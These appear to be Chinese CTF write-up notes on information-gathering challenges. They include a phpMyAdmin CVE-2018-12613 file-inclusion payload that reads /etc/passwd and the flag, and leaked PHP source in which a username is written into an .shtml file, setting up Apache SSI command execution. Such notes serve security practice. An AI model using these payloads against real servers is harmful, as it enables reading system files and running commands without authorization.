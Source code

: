 # 信息搜集

# 信息搜集

### dirsearch

### ****[GWCTF 2019]我有一个数据库****

dirserarch扫一下

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled.png)

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled%201.png)

访问phpmyadmin/index.php，拿到版本信息

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled%202.png)

搜索对应版本漏洞

[cve-2018-12613-PhpMyadmin后台文件包含 - 简书 (jianshu.com)](https://www.jianshu.com/p/fb9c2ae16d09)

- 文件包含：index.php?target=db_datadict.php%253f/../../../../../../../../../etc/passwd

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled%203.png)

index.php?target=db_datadict.php%253f/../../../../../../../../../flag

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled%204.png)

### swp源码泄露

### **Apache SSI 远程命令执行**

### ****[BJDCTF2020]EasySearch****

swp源码泄露

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

在username那里写入文件内容，在响应报文那里会有文件位置

![Untitled](%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e31f7e5bf9664aed9d1e84c0455ed54c/Untitled%205.png)